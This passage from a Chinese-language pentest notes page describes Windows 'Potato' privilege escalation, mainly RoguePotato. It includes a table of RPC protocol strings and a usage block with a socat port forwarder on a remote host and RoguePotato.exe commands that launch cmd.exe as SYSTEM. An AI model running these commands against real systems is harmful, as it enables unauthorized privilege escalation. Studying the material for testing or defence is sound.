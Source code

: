 这个POC有趣的地方在于，它利用了打印机组件路径检查的BUG，使`SYSTEM`权限服务能连接到攻击者创建的`named pipe`

![](img/NTLM/18.png)

### RoguePotato

- https://github.com/antonioCoco/RoguePotato

利用了命名管道,微软修补后，高版本` Windows DCOM` 解析器不允许`OBJREF`中的`DUALSTRINGARRAY`字段指定端口号。为了绕过这个限制并能做本地令牌协商，作者在一台远程主机上的`135`端口做流量转发，将其转回受害者本机端口，并写了一个恶意`RPC OXID`解析器

**RPC支持的协议**
https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rpce/472083a9-56f1-4d81-a208-d18aef68c101

|RPC transport	|RPC protocol sequence string|
|-|-|
|SMB	|ncacn_np (see section 2.1.1.2)
|TCP/IP (both IPv4 and IPv6)	|ncacn_ip_tcp (see section 2.1.1.1)
|UDP	|ncadg_ip_udp (see section 2.1.2.1)
|SPX	|ncacn_spx (see section 2.1.1.3)
|IPX	|ncadg_ipx (see section 2.1.2.2)
|NetBIOS over IPX	|ncacn_nb_ipx (see section 2.1.1.4)
|NetBIOS over TCP	|ncacn_nb_tcp (see section 2.1.1.5)
|NetBIOS over NetBEUI	|ncacn_nb_nb (see section 2.1.1.6)
|AppleTalk	|ncacn_at_dsp (see section 2.1.1.7)
|RPC over HTTP	|ncacn_http (see section 2.1.1.8)

**利用代码：**

```bash
 - Network redirector / port forwarder to run on your remote machine, must use port 135 as src port
        socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.3:9999
 - RoguePotato without running RogueOxidResolver locally. You should run the RogueOxidResolver.exe on your remote machine. Use this if you have fw restrictions.
        RoguePotato.exe -r <IP> -e "C:\windows\system32\cmd.exe"
 - RoguePotato all in one with RogueOxidResolver running locally on port 9999
        RoguePotato.exe -r <IP> -e "C:\windows\system32\cmd.exe" -l 9999
 - RoguePotato all in one with RogueOxidResolver running locally on port 9999 and specific clsid and custom pipename
        RoguePotato.exe -r <IP> -e "C:\windows\system32\cmd.exe" -l 9999 -c "{6d8ff8e1-730d-11d4-bf42-00b0d0118b56}" -p splintercode
```
